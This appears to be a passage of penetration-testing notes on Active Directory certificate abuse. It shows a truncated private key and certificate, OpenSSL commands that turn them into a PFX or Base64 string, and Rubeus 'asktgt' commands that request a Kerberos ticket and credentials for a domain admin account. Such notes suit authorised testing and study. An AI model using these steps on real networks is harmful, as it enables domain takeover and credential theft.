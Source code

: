 {% tabs %}
{% tab title="Certificate.pem" %}
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvSMVrpG5BpRm8a0hfybpt7F5begLKJqXM69qRLMXO1De4QiW...
<---- Snip ---->
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIFnjCCBIagAwIBAgITOwAAAARKx4M83Cq7HwAAAAAABDANBgkqhkiG9w0BAQsF
<---- Snip ---->
-----END CERTIFICATE-----
```
{% endtab %}
{% endtabs %}

Issue the following with OpenSSL

{% tabs %}
{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
# Convert the certificate to PFX, optionally setting a password
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in certificate.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out certificate.pfx

# If Base64 encoding the certificate (Not required)
[System.Convert]::ToBase64String((Get-Content -Path ".\certificate.pem" -Encoding Byte)) | Write-Output
```
{% endcode %}
{% endtab %}

{% tab title="Unix" %}
{% code overflow="wrap" %}
```python
# Convert the certificate to PFX, optionally setting a password
openssl pkcs12 -in certificate.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out certificate.pfx

# If Base64 encoding the certificate (Not required)
cat certificate.pfx | base64 -w 0
```
{% endcode %}
{% endtab %}
{% endtabs %}

Take either the Base64 output or certificate file path and use with Rubeus to requests a TGT of the target account.

{% tabs %}
{% tab title="Invoke-Rubeus" %}
{% code overflow="wrap" %}
```powershell
# Syntax (if certificate password was specified)
Invoke-Rubeus -Command "asktgt /user:<DomainAdmin> /password:<password> /aes256 /nowrap /getcredential /certificate:<Base64-Cert> or <path to PFX file>"

# Syntax (certificate password not specified)
Invoke-Rubeus -Command "asktgt /user:<DomainAdmin> /certificate:<Base64-Cert> /aes256 /nowrap /getcredential /certificate:<Base64-Cert> or <path to PFX file>"
```
{% endcode %}
{% endtab %}
